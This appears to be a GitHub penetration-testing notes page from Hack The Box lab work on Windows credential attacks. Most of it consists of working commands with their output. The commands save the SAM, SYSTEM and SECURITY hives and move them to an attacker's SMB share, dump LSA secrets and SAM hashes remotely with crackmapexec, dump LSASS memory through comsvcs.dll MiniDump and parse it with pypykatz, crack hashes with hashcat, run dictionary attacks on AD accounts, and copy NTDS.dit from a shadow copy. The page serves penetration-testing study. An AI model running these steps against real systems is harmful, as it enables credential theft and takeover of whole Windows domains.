 - [Attacking SAM](#attacking-sam)
- [Attacking LSASS](#attacking-lsass)
- [Attacking Active Directory & NTDS.dit](#attacking-active-directory--ntdsdit)





![Screenshot_8](https://github.com/kiro6/penetration-testing-notes/assets/57776872/23757489-37b1-41f2-82f3-70be69c26b8f)





## Attacking SAM

1) **Copying SAM Registry Hives**

| Registry Hive | Description                                                                                                        |
|---------------|--------------------------------------------------------------------------------------------------------------------|
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                      |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                               |


```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```



2) **Creating a Share with smbserver.py**

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

3) **Dumping Hashes with Impacket's secretsdump.py**


```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

4) **Cracking Hashes with Hashcat**

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


### Dumping LSA Secrets Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

### Dumping SAM Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

## Attacking LSASS

### Dumping LSASS Process Memory

#### Task Manager Method
```
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file

A file called lsass.DMP is created and saved in:  C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
#### Rundll32.exe & Comsvcs.dll Method

```powershell

Get-Process lsass

rundll32 C:\windows\system32\comsvcs.dll, MiniDump <ID> C:\lsass.dmp full 
```
```cmd

tasklist /svc | findstr lsass

rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <ID> C:\lsass.dmp full
```

### Using Pypykatz to Extract Credentials
[pypykatz](https://github.com/skelsec/pypykatz)

```bash
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
#### MSV
MSV is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. 
```
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

#### WDIGEST
WDIGEST is an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. LSASS caches credentials used by WDIGEST in clear-text
```
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```

#### Kerberos
```
== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

#### DPAPI
Mimikatz and Pypykatz can extract the DPAPI masterkey for the logged-on user whose data is present in LSASS process memory. This masterkey can then be used to decrypt the secrets associated with each of the applications using DPAPI
```
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

| Application              | Use of DPAPI                                            |
|--------------------------|---------------------------------------------------------|
| Internet Explorer        | Password form auto-completion data (username and password for saved sites).  |
| Google Chrome            | Password form auto-completion data (username and password for saved sites).  |
| Outlook                  | Passwords for email accounts.                            |
| Remote Desktop Connection| Saved credentials for connections to remote machines.    |
| Credential Manager       | Saved credentials for accessing shared resources, joining wireless networks, VPNs, and more. |


## Attacking Active Directory & NTDS.dit

### Dictionary Attacks against AD accounts using CrackMapExec

```
./username-anarchy -i /home/ltnbob/names.txt

crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
## or
netexec smb 10.129.111.214 -u posi -p passwords2
```

### Capturing NTDS.dit

```
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

## Checking Local Group Membership
*Evil-WinRM* PS C:\> net localgroup

## Creating Shadow Copy of C:
vssadmin CREATE SHADOW /For=C:

## Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

```

### A Faster Method: Using cme to Capture NTDS.dit
```
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
